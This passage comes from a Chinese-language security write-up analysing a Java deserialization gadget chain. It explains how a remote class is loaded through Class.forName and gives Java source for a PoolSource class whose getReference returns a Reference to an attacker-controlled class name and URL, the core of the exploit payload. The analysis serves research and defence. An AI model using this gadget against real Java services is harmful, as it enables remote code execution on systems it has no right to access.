 最后就到了Class解析的地方，var0为传递过来的this.reference，var4为ClassName，var11为ClassLocation这里即URL，最后通过Class.forName解析远程类。

![](https://p5.ssl.qhimg.com/t01d459f368d7054186.png)

### <a class="reference-link" name="0x3%20%E5%88%A9%E7%94%A8%E9%93%BE%E6%9E%84%E9%80%A0"></a>0x3 利用链构造

如何构造这个利用链呢？我们从上述分析来看，connectionPoolDataSource是个非常特殊的存在，它是整个链的纽带和桥梁。从分析来看一旦connectionPoolDataSource构造好了，整个利用链也就完成了。那么connectionPoolDataSource需要满足以下条件
1. 继承ConnectionPoolDataSource、Referenceable，并简单实现接口中的方法
1. 重点实现getReference 方法，返回对应的数据
至于原因在问题分析中进行解析。在这里分析ConnectionPoolDataSource接口实现以及getReference方法实现。

```
private static final class PoolSource implements ConnectionPoolDataSource, Referenceable `{`
        private String className;
        private String url;
        public PoolSource(String className, String url) `{`
            this.className = className;
            this.url = url;
        `}`
        @Override
        public Reference getReference() throws NamingException `{`
            return new Reference("exploit", this.className, this.url);
        `}`
        @Override
        public PooledConnection getPooledConnection() throws SQLException `{`
            return null;
        `}`
        @Override
        public PooledConnection getPooledConnection(String user, String password) throws SQLException `{`
            return null;
        `}`
        @Override
        public PrintWriter getLogWriter() throws SQLException `{`
            return null;
        `}`
        @Override
        public void setLogWriter(PrintWriter out) throws SQLException `{`
        `}`
        @Override
        public void setLoginTimeout(int seconds) throws SQLException `{`
        `}`
        @Override
        public int getLoginTimeout() throws SQLException `{`
            return 0;
        `}`
        @Override
        public Logger getParentLogger() throws SQLFeatureNotSupportedException `{`
            return null;
        `}`
    `}`
```
